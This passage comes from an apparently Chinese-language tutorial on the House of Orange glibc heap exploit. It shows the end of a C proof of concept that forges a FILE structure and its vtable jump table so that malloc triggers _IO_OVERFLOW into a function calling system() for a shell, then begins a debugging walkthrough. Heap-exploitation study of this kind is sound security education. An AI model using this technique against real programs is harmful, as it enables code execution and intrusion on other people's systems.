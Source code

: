 ```plain
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the FILE struct:
      base_address+sizeof(FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8


    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

### 编译调试

#### 第一步：House of orange

首先申请了一块chunk
